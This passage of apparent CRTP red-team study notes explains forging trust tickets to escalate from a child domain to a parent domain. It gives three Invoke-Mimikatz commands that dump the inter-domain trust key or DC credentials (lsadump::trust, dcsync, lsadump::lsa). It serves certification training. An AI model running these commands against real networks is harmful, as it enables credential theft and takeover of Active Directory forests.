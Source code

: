 ![Alt text](/assets/images/posts/crtp/21.png){: .align-center}




### Child to Parent using Trust Tickets

So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
